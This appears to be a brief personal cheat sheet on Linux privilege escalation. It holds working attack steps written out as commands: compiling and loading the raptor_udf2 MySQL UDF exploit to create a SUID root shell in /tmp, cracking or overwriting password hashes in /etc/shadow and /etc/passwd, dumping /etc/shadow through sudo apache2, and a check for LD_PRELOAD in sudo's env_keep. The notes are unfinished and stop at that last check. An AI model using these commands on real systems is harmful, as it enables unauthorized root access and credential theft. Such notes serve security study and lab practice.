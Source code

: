 # Linux priv esculation

## MySQL exploit

This exploit works if MySQL is run in root mode.

Using this exploit (https://www.exploit-db.com/exploits/1518)

Complie the code using gcc:

~~~ 
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
~~~

Open MySQL and create a user defined function that runs system commands.

This creates a SUID in the tmp that when run esculates priviledge. 

~~~
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
~~~
 
## Readable /etc/shadow

Readable /etc/shadowcan copied and cracked by john

## Writeable /etc/shadow

Generate a new password and replace the root password

~~~
mkpasswd -m sha-512 <password here>

Put :7::: at the end
~~~

## Writable /etc/passwd file

Generate a new password hash:

~~~
openssl passwd <newpassword>
~~~

Then in the /etc/passwd file change root password hash (it will be an x).


## Sudo escape sequencies.

~~~
sudo -l 
~~~

Then use GTFOBins (https://gtfobins.github.io) to look for sudo privesc.

If apache2 can be used in sudo then run:

~~~
sudo apache2 -f /etc/shadow
~~~

This gives the password sha-512 for root.

## sudo enviornmental variables.

Sudo can be configured to inherit environment variables from the user's environment.

~~~
sudo -l
--------------------------------------------------------------
Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH
--------------------------------------------------------------
~~~



